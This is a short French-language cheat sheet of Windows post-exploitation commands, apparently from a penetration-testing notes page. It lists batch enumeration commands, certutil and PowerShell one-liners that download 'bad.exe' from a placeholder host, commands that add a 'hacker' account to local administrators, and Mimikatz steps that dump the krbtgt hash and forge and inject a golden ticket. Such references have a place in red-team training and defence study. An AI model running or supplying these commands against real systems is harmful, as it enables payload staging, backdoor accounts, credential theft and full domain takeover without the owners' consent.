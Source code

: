 <h2>Batch</h2>
<i>systeminfo</i> → Obtenir des renseignements sur le système</br>
<i>net users /domain [username]</i> → Obtenir des renseignements sur les utilisateurs</br>
<i>tasklist</i> → Lister les processus</br>
<i>netstat -ano</i> → Liste des connexions tcp</br>
<i>dir sysprep /s /b</i> → Trouver un fichier dans le repertoire courant et ses sous-dossiers</br>
<i>wmic qfe list</i> → Lister les patch installés (KB)</br>
<i>certutil.exe -urlcache -split -f "http://site.com/bad.exe" bad.exe</i> → Wget en batch</br>
<i>certutil.exe -decode bad.txt bad.exe</i> → Base64 decode en cmd</br>
<i>net user Domain/hacker hackerhacker /add</i> → Ajoute un utilisateur</br>
<i>net localgroup administrators hacker /add</i> → Ajoute un utilisateur à un groupe</br>
<i>net use k: \\srv.remote.org\c$</i> → Connexion au disque distant c sur la partition k</br>
<i>wmic useraccount where name='user'</i> → Récupère des informations sur un utilisateur (SID)</br>

<h2>Powershell</h2>
<i>{(New-Object System.Net.WebClient).DownloadFile("http://site.com/file", "C:\\Users\Public\file")}</i> → Wget en powershell</br>
get-WmiObject -class Win32_Share

<h2>Mimikatz</h2>
<i>privilege::debug</i></br>
<i>lsadump::lsa /inject /name:krbtgt</i> → Récupérer le NTLM hash de krbtgt</br>
<i>kerberos::golden /user:[USER] /domain:[DOMAINE] /sid:[SID de USER] /krbtgt:[NTLM hash de krbtgt] /ticket:evil.tck /ptt</i> → Créé et inject un golden ticket à la session</br>
